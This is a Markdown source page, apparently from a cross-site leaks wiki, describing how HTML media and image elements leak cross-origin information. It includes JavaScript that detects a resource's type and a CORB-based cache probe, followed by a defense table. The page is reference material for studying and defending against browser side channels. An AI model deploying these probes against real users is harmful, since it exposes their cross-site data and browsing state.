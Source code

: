 +++
title = "Element leaks"
description = ""
category = "Attack"
abuse = [
    "HTMLElement",
]
defenses = [
]
menu = "main"
weight = 2
+++

Some HTML Elements leak data cross origin.

- [HTMLMediaElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLMediaElement) leaks the media `duration` and the `buffered` times.
- [HTMLVideoElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLVideoElement) leaks the `videoHeight` and `videoWidth` 
  some browsers may also have `webkitVideoDecodedByteCount`, `webkitAudioDecodedByteCount` and `webkitDecodedFrameCount`
- [getVideoPlaybackQuality()](https://developer.mozilla.org/en-US/docs/Web/API/VideoPlaybackQuality) leaks the `totalVideoFrames`.
- [HTMLImageElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement) leaks the `height` and `width` but if the image is invalid they will be 0 
  and [decode()](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement/decode) will get rejected.

Some HTML Elements have properties that predictability change when a valid resource is used this can be checked to detect what the resource type is.
```javascript
async function getType(url) {
    // Detect if resource is audio or video
    let media = document.createElement("video");
    media.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (media.videoWidth) {
    return "video";
    } else if (media.duration) {
    return "audio"
    }
    // Detect if resource is an image
    let image = new Image();
    image.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (image.width) return "image";
}
```

## Abusing CORB
CORB is a feature of Chrome that replaces reposnses if the wrong content type is used.
This means that if the type is wrong it wont be cached.
A ifCached function can be found at [Cache Probing]({{< ref "/docs/attacks/cache-probing/" >}})
```javascript
async function isType(url, type = "script") {
  // Attempt to load resource
  let a = document.createElement(type);
  a.src = url;
  document.head.appendChild(a);
  // Wait for it to be cached if its allowed by CORB
  await new Promise(resolve => setTimeout(resolve, 500));
  return await ifCached(url);
}
```

## Defense

|       Attack Alternative        | [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                          |
| :-----------------------------: | :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :-----------------------------------------------------------------------------------------------------------------------------------------------------: |
|   Type leaks    |                                         ✔️                                          |                          ❌                          |                                 ❌                                 |                                                                                | |
